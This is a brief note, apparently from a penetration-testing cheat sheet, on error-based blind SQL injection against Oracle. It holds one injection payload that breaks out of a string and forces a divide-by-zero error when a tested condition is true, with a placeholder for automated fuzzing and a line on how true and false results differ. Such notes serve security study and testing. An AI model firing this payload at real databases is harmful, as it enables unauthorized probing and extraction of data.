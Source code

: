 # Causing error oracle database

<mark style="color:yellow;">'||(SELECT CASE WHEN (1=§1§) THEN TO\_CHAR(1/0) ELSE NULL END FROM dual)||';</mark>



If 1=1 then 1/0 == It will trigger the error cause 1/0 is not possible

if 1=2 == it will trigger " else null end from dual
